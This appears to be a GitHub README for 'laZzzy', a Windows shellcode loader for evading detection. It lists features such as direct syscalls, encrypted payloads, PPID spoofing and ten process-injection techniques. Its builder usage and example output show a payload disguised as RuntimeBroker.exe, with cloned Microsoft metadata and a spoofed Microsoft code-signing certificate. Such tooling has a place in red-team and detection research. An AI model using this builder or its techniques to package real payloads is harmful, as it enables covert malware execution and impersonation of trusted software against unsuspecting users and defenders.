


## laZzzy


laZzzy is a shellcode loader that demonstrates different execution techniques commonly employed by malware. laZzzy was developed using different open-source header-only libraries.


### Features
- Direct syscalls and native (`Nt*`) functions (not all functions but most)
- Import Address Table (IAT) evasion
- Encrypted payload (XOR and AES)
  - Randomly generated key
  - Automatic padding (if necessary) of payload with NOPS (`\x90`)
  - Byte-by-byte in-memory decryption of payload
- XOR-encrypted strings
- PPID spoofing
- Blocking of non-Microsoft-signed DLLs
- (Optional) Cloning of PE icon and attributes
- (Optional) Code signing with spoofed cert

### How to Use

#### Requirements:
- Windows machine w/ Visual Studio and the following components, which can be installed from _`Visual Studio Installer` > `Individual Components`_:
  - `C++ Clang Compiler for Windows` and `C++ Clang-cl for build tools` 

    
  
  - `ClickOnce Publishing`
  
    

- Python3 and the required modules:
  -  `python3 -m pip install -r requirements.txt`


#### Options:
```powershell
(venv) PS C:\MalDev\laZzzy> python3 .\builder.py -h

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣤⣤⠀⢀⣼⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⢀⣀⣀⡀⠀⠀⠀⢀⣀⣀⣀⣀⣀⡀⠀⢀⣼⡿⠁⠀⠛⠛⠒⠒⢀⣀⡀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣰⣾⠟⠋⠙⢻⣿⠀⠀⠛⠛⢛⣿⣿⠏⠀⣠⣿⣯⣤⣤⠄⠀⠀⠀⠀⠈⢿⣷⡀⠀⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣿⣯⠀⠀⠀⢸⣿⠀⠀⠀⣠⣿⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠙⠿⣷⣦⣴⢿⣿⠄⢀⣾⣿⣿⣶⣶⣶⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀by: CaptMeelo⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠁⠀⠀⠀

usage: builder.py [-h] -s  -p  -m  [-tp] [-sp] [-pp] [-b] [-d]

options:
  -h, --help  show this help message and exit
  -s          path to raw shellcode
  -p          password
  -m          shellcode execution method (e.g. 1)
  -tp         process to inject (e.g. svchost.exe)
  -sp         process to spawn (e.g. C:\\Windows\\System32\\RuntimeBroker.exe)
  -pp         parent process to spoof (e.g. explorer.exe)
  -b          binary to spoof metadata (e.g. C:\\Windows\\System32\\RuntimeBroker.exe)
  -d          domain to spoof (e.g. www.microsoft.com)

shellcode execution method:
   1          Early-bird APC Queue (requires sacrificial proces)
   2          Thread Hijacking (requires sacrificial proces)
   3          KernelCallbackTable (requires sacrificial process that has GUI)
   4          Section View Mapping
   5          Thread Suspension
   6          LineDDA Callback
   7          EnumSystemGeoID Callback
   8          FLS Callback
   9          SetTimer
   10         Clipboard
```

#### Example:
Execute `builder.py` and supply the necessary data.
```powershell
(venv) PS C:\MalDev\laZzzy> python3 .\builder.py -s .\calc.bin -p CaptMeelo -m 1 -pp explorer.exe -sp C:\\Windows\\System32\\notepad.exe -d www.microsoft.com -b C:\\Windows\\System32\\mmc.exe

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣤⣤⣤⣤⠀⢀⣼⠟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠀⠀⢀⣀⣀⡀⠀⠀⠀⢀⣀⣀⣀⣀⣀⡀⠀⢀⣼⡿⠁⠀⠛⠛⠒⠒⢀⣀⡀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣰⣾⠟⠋⠙⢻⣿⠀⠀⠛⠛⢛⣿⣿⠏⠀⣠⣿⣯⣤⣤⠄⠀⠀⠀⠀⠈⢿⣷⡀⠀⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⣿⣯⠀⠀⠀⢸⣿⠀⠀⠀⣠⣿⡟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⣰⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⣿⣿⠀⠀⠙⠿⣷⣦⣴⢿⣿⠄⢀⣾⣿⣿⣶⣶⣶⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⡿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣼⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀by: CaptMeelo⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠁⠀⠀⠀

[+] XOR-encrypting payload with
        [*] Key:                        d3b666606468293dfa21ce2ff25e86f6

[+] AES-encrypting payload with
        [*] IV:                         f96312f17a1a9919c74b633c5f861fe5
        [*] Key:                        6c9656ed1bc50e1d5d4033479e742b4b8b2a9b2fc81fc081fc649e3fb4424fec

[+] Modifying template using
        [*] Technique:                  Early-bird APC Queue
        [*] Process to inject:          None
        [*] Process to spawn:           C:\\Windows\\System32\\RuntimeBroker.exe
        [*] Parent process to spoof:    svchost.exe

[+] Spoofing metadata
        [*] Binary:                     C:\\Windows\\System32\\RuntimeBroker.exe
        [*] CompanyName:                Microsoft Corporation
        [*] FileDescription:            Runtime Broker
        [*] FileVersion:                10.0.22621.608 (WinBuild.160101.0800)
        [*] InternalName:               RuntimeBroker.exe
        [*] LegalCopyright:             © Microsoft Corporation. All rights reserved.
        [*] OriginalFilename:           RuntimeBroker.exe
        [*] ProductName:                Microsoft® Windows® Operating System
        [*] ProductVersion:             10.0.22621.608

[+] Compiling project
        [*] Compiled executable:        C:\MalDev\laZzzy\loader\x64\Release\laZzzy.exe

[+] Signing binary with spoofed cert
        [*] Domain:                     www.microsoft.com
        [*] Version:                    2
        [*] Serial:                     33:00:59:f8:b6:da:86:89:70:6f:fa:1b:d9:00:00:00:59:f8:b6
        [*] Subject:                    /C=US/ST=WA/L=Redmond/O=Microsoft Corporation/CN=www.microsoft.com
        [*] Issuer:                     /C=US/O=Microsoft Corporation/CN=Microsoft Azure TLS Issuing CA 06
        [*] Not Before:                 October 04 2022
        [*] Not After:                  September 29 2023
        [*] PFX file:                   C:\MalDev\laZzzy\output\www.microsoft.com.pfx

[+] All done!
        [*] Output file:                C:\MalDev\laZzzy\output\RuntimeBroker.exe
```


### Libraries Used
- [kokke/tiny-AES-c](https://github.com/kokke/tiny-AES-c)
- [skadro-official/skCrypter](https://github.com/skadro-official/skCrypter)
- [JustasMasiulis/lazy_importer](https://github.com/JustasMasiulis/lazy_importer)
- [JustasMasiulis/inline_syscall](https://github.com/JustasMasiulis/inline_syscall)


### Shellcode Execution Techniques

1. Early-bird APC Queue _(requires sacrificial process)_
2. Thread Hijacking _(requires sacrificial process)_
3. KernelCallbackTable _(requires sacrificial process that has a GUI)_
4. Section View Mapping
5. Thread Suspension
6. LineDDA Callback
7. EnumSystemGeoID Callback
8. Fiber Local Storage (FLS) Callback
9. SetTimer
10. Clipboard


### Notes:
- Only works on **Windows x64**
- Debugging only works on **Release** mode
- Sometimes, **KernelCallbackTable** doesn't work on the first run but will eventually work afterward


### Credits/References
- Authors of the libraries used
- http://undocumented.ntinternals.net/
- https://doxygen.reactos.org/index.html
- https://github.com/processhacker/phnt
- https://www.vergiliusproject.com/
- https://www.ired.team/
- https://github.com/snovvcrash/DInjector
- https://github.com/aahmad097/AlternativeShellcodeExec
- https://github.com/paranoidninja/CarbonCopy